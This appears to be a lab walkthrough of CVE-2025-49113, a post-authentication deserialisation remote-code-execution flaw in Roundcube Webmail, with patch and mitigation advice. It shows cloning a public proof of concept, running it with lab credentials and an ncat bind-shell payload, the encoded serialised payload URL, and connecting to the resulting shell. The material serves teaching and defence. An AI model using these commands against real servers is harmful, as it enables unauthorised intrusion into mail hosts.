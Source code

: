 <h1 align="center">Roundcube: CVE-2025-49113</h1>

## About RoundCube
Roudcube is a free and open-source webmail project. It is very feature-rich and available in over eighty languages. Although its built-in features are rich, they can be further expanded through the support of third-party plug-ins.

It mainly requires a web server with PHP support and an SQL server to run. Apache, Nginx, and Lighttpd, among others, can easily satisfy the web server requirements; MySQL, MariaDB, PostgreSQL, SQLite, and many others can satisfy the database requirements. This versatility makes Roundcube a very popular choice for webmail, especially among hosting providers.

Recently, a vulnerability was discovered in Roundcube Webmail; it affects all versions 1.5.x and 1.6.x before 1.5.10 and 1.6.11. This vulnerability allows remote code execution (RCE) by authenticated users; in other words, valid credentials for the webmail are enough for the attacker to execute commands on the host system. This vulnerability has a CVSS 3.x severity score of 9.9, i.e., critical. Roundcube has already released versions 1.5.10 and 1.6.11 and strongly recommends updating.

This room will cover what makes this vulnerability possible and demonstrate exploitation in a lab environment.

---

## Technical Background
> Serialisation is the process of converting an object, i.e., a class instance in PHP, Java, or Python, into a storable or transmittable format. This process is commonly used for storing objects in files or databases and for sending objects across the network, such as in APIs or cookies.

A deserialisation vulnerability is a security flaw that occurs when an application deserialises untrusted or tampered data. Deserialisation is the process of converting data from a serialised format, such as a byte stream or a string, back into a program object. If this process is done insecurely, an attacker can manipulate the serialised data to execute arbitrary code or even escalate privileges, among other malicious actions.

Kirill Firsov discovered a deserialisation vulnerability in Roundcube Webmail. They shared on their website the line of thought and research that led to discovery; it is an interesting read. The vulnerability is caused by the _from property in the upload.php not being thoroughly checked for safe values before deserialisation.

This vulnerability can be inferred in the commits for version 1.5.10 and for version 1.6.11. Even if you are not familiar with PHP, checking the commit lines and the comments will give you a good idea about how this vulnerability was fixed. In the screenshot below, you can easily infer that the additional lines now check if the URL parameter _from contains any unsafe characters.

![upload.php](https://github.com/user-attachments/assets/e45509eb-4be5-4043-93a5-8b28c2cbb225)

This vulnerability allows remote code execution via its insecure deserialisation. The attacker still needs to craft a payload so that its deserialisation leads to the desired outcome.

---

### Exploit Code
A proof of concept (PoC) exploit code is published by FearsOff on their GitHub repository. The easiest way to follow along would be to download the exploit code using git clone https://github.com/fearsoff-org/CVE-2025-49113. This is shown in the terminal below.

AttackBox Terminal
```
root@attackbox:~# git clone https://github.com/fearsoff-org/CVE-2025-49113
Cloning into 'CVE-2025-49113'...
remote: Enumerating objects: 8, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (7/7), done.
remote: Total 8 (delta 1), reused 8 (delta 1), pack-reused 0 (from 0)
Unpacking objects: 100% (8/8), 7.31 KiB | 1.83 MiB/s, done.
root@attackbox:~# cd CVE-2025-49113/
root@attackbox:~/CVE-2025-49113# ls
CVE-2025-49113.php  rc_install.sh  README.md
```
Note: The CVE-2025-49113.php is the PoC exploit. If you are a free user, the AttackBox does not have Internet access, and you need to use another means to get the above file into the AttackBox. One easy way would be to copy the file from its GitHub page, create a new file on the AttackBox using your preferred text editor, and save it with the extension .php.

The CVE-2025-49113.php executes the necessary steps to get the payload of your choice executed on the target server. After retrieving a CSRF token and a session cookie, this PoC PHP script logs in using the provided username and password. The core steps of this script lie in the following:

Craft a malicious serialised PHP object
Embed the crafted object in the _from parameter
Send a POST request to the upload.php endpoint using the malicious _from parameter
The received malicious parameter will be deserialised and executed on the server side.

Executing the Exploit
To run the PoC code, the following arguments need to be used: php CVE-2025-49113.php target_url username password command.

The target_url should be replaced by Roundcube Webmail’s URL, i.e., http://MACHINE_IP/roundcube
The username and password are the valid credentials to access the webmail
The command is the “payload” that you want to be executed on the target server
Let’s use ncat -lvnp 4444 -e /bin/bash to set a bind shell; this will make it easier to demonstrate the exploit and test whether it executed successfully. An example is shown in the terminal below.

AttackBox Terminal
```
root@attackbox:~/CVE-2025-49113# php CVE-2025-49113.php http://MACHINE_IP/roundcube ellieptic ChangeMe123 "ncat -lvnp 4444 -e /bin/bash"
### Roundcube ≤ 1.6.10 Post-Auth RCE via PHP Object Deserialization [CVE-2025-49113]

### Retrieving CSRF token and session cookie...

### Authenticating user: ellieptic

### Authentication successful

### Command to be executed: 
ncat -lvnp 4444 -e /bin/bash

### Injecting payload...

### End payload: http://MACHINE_IP/roundcube/?_from=edit-%21%C3%22%C3%3B%C3i%C3%3A%C30%C3%3B%C3O%C3%3A%C31%C36%C3%3A%C3%22%C3C%C3r%C3y%C3p%C3t%C3_%C3G%C3P%C3G%C3_%C3E%C3n%C3g%C3i%C3n%C3e%C3%22%C3%3A%C31%C3%3A%C3%7B%C3S%C3%3A%C32%C36%C3%3A%C3%22%C3%5C%C30%C30%C3C%C3r%C3y%C3p%C3t%C3_%C3G%C3P%C3G%C3_%C3E%C3n%C3g%C3i%C3n%C3e%C3%5C%C30%C30%C3_%C3g%C3p%C3g%C3c%C3o%C3n%C3f%C3%22%C3%3B%C3S%C3%3A%C33%C30%C3%3A%C3%22%C3n%C3c%C3a%C3t%C3+%C3-%C3l%C3v%C3n%C3p%C3+%C34%C34%C34%C34%C3+%C3-%C3e%C3+%C3%2F%C3b%C3i%C3n%C3%2F%C3b%C3a%C3s%C3h%C3%3B%C3%23%C3%22%C3%3B%C3%7D%C3i%C3%3A%C30%C3%3B%C3b%C3%3A%C30%C3%3B%C3%7D%C3%22%C3%3B%C3%7D%C3%7D%C3&_task=settings&_framed=1&_remote=1&_id=1&_uploadid=1&_unlock=1&_action=upload

### Payload injected successfully

### Executing payload...
```
It is worth mentioning that the exploit may take a minute or two to respond and sometimes the script gives an error message despite the payload successfully executing on the target. In one attempt, we got the following error message; however, the bind shell was set up successfully, and we could connect to it from the AttackBox.

AttackBox Terminal
```
PHP Warning:  file_get_contents(http://MACHINE_IP/roundcube/): failed to open stream: HTTP request failed! in /root/CVE-2025-49113/CVE-2025-49113.php on line 240
### Error: CSRF token not found in response body
```
On the AttackBox, you must connect to the bind shell listening on port 4444.

AttackBox Terminal
```
root@attackbox:~# nc MACHINE_IP 4444
pwd
/var/www/html/roundcube
whoami
www-data
```
---

> This vulnerability only requires valid webmail credentials and works with default installations. The exploit can be tricky to detect, considering it can easily pass as regular traffic. Considering the severity of the exploit, users running 1.5.x and 1.6.x are recommended to update to 1.5.10 and 1.6.11, respectively. If updating is infeasible for some reason, one mitigation would be to block upload.php.







